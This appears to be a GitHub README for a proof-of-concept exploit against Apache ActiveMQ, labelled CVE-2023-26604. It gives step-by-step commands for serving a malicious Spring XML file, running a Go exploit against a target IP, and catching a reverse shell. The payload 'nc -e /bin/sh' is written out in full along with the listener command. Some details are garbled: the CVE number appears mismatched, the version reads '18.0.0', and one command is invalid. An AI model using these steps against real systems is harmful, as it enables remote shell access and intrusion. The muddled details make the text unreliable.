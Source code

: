 # POC - CVE-2023-26604

**Ready to environment:**

1. Download Active MQ 18.0.0 Release fromhere:
https://activemq.apache.org/activemq-5018000-release

2.Install the Active MQ based on instructions, you can use it:
https://www.techbeginner.in/2019/12/how-to-install-apache-activemq-on-ubuntu-16-04.html

3. Tested on Kali (Debian) current distribution.

**Build POC:**

 1. $ python3 -m http.server 8001 (where the .xml poc file)
 2. $ sudo go build main.go (build & run go file)
 3. $ sudo run main.go
 4. $ systemctl status activemq  (Check the Activemq service is up)
 5. Check the values tags on xml file as:

                <value>sh</value>
                <value>-c</value>
                <value>nc -e /bin/sh <target_ip> 4444</value>
6. Check the default values. You don't need to review it:
	- flag.StringVar(&ip, "i", "", "ActiveMQ Server IP or Host")
	- flag.StringVar(&port, "p", "61616", "ActiveMQ Server Port")
	- flag.StringVar(&url, "u", "", "Spring XML Url")\n
	- flag.Parse()

**Run POC:**

7. $ ./main -i <target_ip> -u http://127.0.0.1:8001/poc-linux.xml
8.  $ nc -lvnp 4444 (listening for reverse shell)
